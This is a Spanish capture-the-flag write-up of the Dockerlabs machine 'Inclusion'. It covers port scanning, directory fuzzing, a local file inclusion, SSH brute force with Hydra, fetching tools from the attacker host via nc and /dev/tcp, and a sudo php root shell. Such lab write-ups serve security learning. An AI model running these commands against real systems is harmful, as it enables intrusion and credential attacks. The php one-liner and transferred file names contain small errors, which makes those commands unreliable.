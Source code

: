Máquina Inclusion

Iniciamos como siempre con el nmap de reconocimiento:

```
# Nmap 7.94SVN scan initiated Fri Apr 19 07:28:09 2024 as: nmap -p- --open -sSCV --min-rate 5000 -vvv -n -Pn -oN Target 172.17.0.2
Warning: Hit PCRE_ERROR_MATCHLIMIT when probing for service http with the regex '^HTTP/1\.1 \d\d\d (?:[^\r\n]*\r\n(?!\r\n))*?.*\r\nServer: Virata-EmWeb/R([\d_]+)\r\nContent-Type: text/html; ?charset=UTF-8\r\nExpires: .*<title>HP (Color |)LaserJet ([\w._ -]+)&nbsp;&nbsp;&nbsp;'
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.0000050s latency).
Scanned at 2024-04-19 07:28:10 CEST for 7s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 03:cf:72:54:de:54:ae:cd:2a:16:58:6b:8a:f5:52:dc (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBFBns4ZccIGmiw02cgCwENA1Lqhf7o9eDomefNVF1iF0Yxx+9JEB6f1kEHCjHqd7fBtn6mnlgPdE+VfqBGVhc2U=
|   256 13:bb:c2:12:f5:97:30:a1:49:c7:f9:d0:ba:d0:5e:f7 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIr1k5/j/3yvWf8rLays4s/EPgkqySLYjRHL6QAq2yN8
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.57 ((Debian))
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.57 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Vemos que hay un puerto ssh y un http, vamos a ver el http, hay un apache por defecto, vamos a fuzzear:

```
gobuster dir -u "http://172.17.0.2/" -w /usr/share/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -x html,txt,php
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,txt,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 10701]
/.html                (Status: 403) [Size: 275]
/.php                 (Status: 403) [Size: 275]
/shop                 (Status: 301) [Size: 307] [--> http://172.17.0.2/shop/]
/.html                (Status: 403) [Size: 275]
/.php                 (Status: 403) [Size: 275]
Progress: 203806 / 830576 (24.54%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 204310 / 830576 (24.60%)
===============================================================
Finished
===============================================================
```

Nos encontramos con /shop, vamos a enumerar, dentro de /shop no hay nada, vamos a tirar otro gobuster,
que nos sale que existe un index.php

![image](https://github.com/FakeLuci/Dockerlabs-Writups/assets/96147300/06d2a41e-3a9f-48e0-932a-4957563dd643)

Al ver el error, podemos intuir que estan intentando llamar a un archivo del sistema, vamos a ver si es vulnerable a un LFI

![image](https://github.com/FakeLuci/Dockerlabs-Writups/assets/96147300/b0ee217f-0c77-4212-8fb3-92422d8ce979)

Efectivamente, ahora hay muchas formas de sacar un rce desde hacer un log poisoning, utilizar gruapers o buscando la id_rsa,
o haciendo una fuerza bruta con los usuarios que están enumerados en el /etc/passwd al ver que el ssh esta abierto, vamos a 
ver si podemos enumerar la id_rsa:

![image](https://github.com/FakeLuci/Dockerlabs-Writups/assets/96147300/09dfb082-9607-4abd-a28d-31b91ffe7782)

No encontramos id_rsa, probamos con log poisoning:

![image](https://github.com/FakeLuci/Dockerlabs-Writups/assets/96147300/4f3464a8-f430-4d6b-9e72-8c4414212a68)

Tampoco, probamos con gruapers y si esto no da, vamos a hacer una fuerza bruta con hydra al ssh con los usuarios que hemos enumerado, con gruapers
tampoco, al final me he complicado para nada, vamos con la fuerza bruta:

![image](https://github.com/FakeLuci/Dockerlabs-Writups/assets/96147300/180fb159-c9ef-4a7d-b88a-d15375cceb47)

efectivamente tenemos le ssh xd, vamos a entrar y enumerar para la escalada de privilegios:

![image](https://github.com/FakeLuci/Dockerlabs-Writups/assets/96147300/0da0de24-7772-420f-8621-6635dcef4f62)

empezamos con sudo -l y no va, SUID tampoco hay nada, tareas crom tampoco, etc. No he enocntrado nada, así que vamos
a intentar iniciar el ssh con el otro usuario, llevo un tiempo y nada, vamos a intentar entonces con el script de fuerza bruta de mario,
ademas al ser una máquina de mario, pues tiene toda la pinta:

Al parecer wget no esta instalado en la máquina.

Trasferencia de archivos a pelo:

```
nc -nlvp 443 < Linux-Su-Force.sh # Nuestra máquina
cat < /dev/tcp/192.168.1.37/443 > Linux-Su-Forze.sh # En la máquina víctima
```

ademas del script, tengo que pasar tambien el rockyou.txt, entonces hacemos lo mismo:

```
nc -nlvp 443 < rockyou.txt # Nuestra máquina
cat < /dev/tcp/192.168.1.37/443 > rockyou.txt # En la máquina víctima
```

y efectivamente nos la encuentra:

![image](https://github.com/FakeLuci/Dockerlabs-Writups/assets/96147300/f771e922-a56a-4be8-9a40-1633bc8a7d83)


una vez que estamos en seller ejecutamos sudo -l y encontramos que esta usr/bin/php

```
CMD="/bin/bash"
sudo php -r "system(CMD);"
```

![image](https://github.com/FakeLuci/Dockerlabs-Writups/assets/96147300/bf05e86f-a352-4d7a-aa9f-4e76cebede85)

Una máquina que he tenido muy mala suerte ya que siempre en los ultimos intentos es la técnica que funcionaba,
pero ha estado entretenida, no es la primer vez que utilizo el script de Mario pero tener que trasferirla sin wget 
a estado interesante.

Dificultado 2/5



